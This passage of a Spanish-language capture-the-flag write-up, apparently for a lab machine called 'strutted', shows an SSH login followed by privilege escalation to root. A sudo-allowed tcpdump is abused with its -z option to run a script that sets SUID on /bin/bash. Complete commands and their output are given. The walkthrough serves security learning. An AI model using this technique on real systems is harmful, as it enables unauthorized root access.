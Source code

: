 Consigo acceder por ssh como el usuario james con la contraseña encontrada

```bash
ssh james@10.10.11.59
james@10.10.11.59's password:
james@strutted:~$
```

### Privilege escalation

Utilizo el comando sudo -l para visualizar los binarios que puede ejecutar con privilegios elevados, observo que tengo permiso para ejecutar tcpdump sin necesidad de proporcionar contraseña.

```bash
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

Encuentro en GTFOBins como escalar privilegios a root teniendo permisos sudo para ejecutar el binario tcpdump

* [tcpdump privesc sudo GTFOBins](https://gtfobins.github.io/gtfobins/tcpdump/#sudo)

El proceso es muy sencillo crearé un script en Bash que otorgue permisos SUID al binario /bin/bash y le asignaré permisos de ejecución

```bash
james@strutted:/tmp$ echo "chmod u+s /bin/bash" > privesc.sh
james@strutted:/tmp$ chmod +x privesc.sh
```

Ejecutaré el comando proporcionado por GTFOBins, pero en el parámetro -z indicaré mi archivo privesc.sh

```bash
james@strutted:/tmp$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z /tmp/privesc.sh -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kerne
```

Por ultimo observo que se han asignado correctamente los permisos SUID y consigo escalar privilegios a root

```bash
james@strutted:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
james@strutted:/tmp$ bash -p
bash-5.1# whoami
root
```
